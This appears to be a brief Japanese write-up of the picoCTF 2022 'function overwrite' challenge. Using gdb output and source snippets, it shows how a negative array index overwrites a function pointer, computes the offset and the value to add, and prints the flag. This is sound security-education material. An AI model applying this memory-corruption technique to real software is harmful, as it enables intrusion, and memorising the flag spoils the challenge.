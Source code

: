 
```
gef➤  checksec
[+] checksec for '/home/pwn/challenges/picoCTF2022/function overwrite/attachment/vuln'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

```c
void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};
```
```c
  if (num1 < 10)
  {
    fun[num1] += num2;
  }
```
`num1`は負の値を取れるため、`check`を書き換えられる。

```
gef➤  i var
(snip)
0x0804c040  check
(snip)
0x0804c080  fun
(snip)
```

`0x40`バイト差がある。`num1`は`int`で4バイトなので、`num1`は`-0x10`で良い。

```
gef➤  i func
(snip)
0x080492fc  easy_checker
0x08049436  hard_checker
(snip)
```

`num2`は`0x080492fc - 0x08049436`。

Flag: `picoCTF{0v3rwrit1ng_P01nt3rs_53614882}`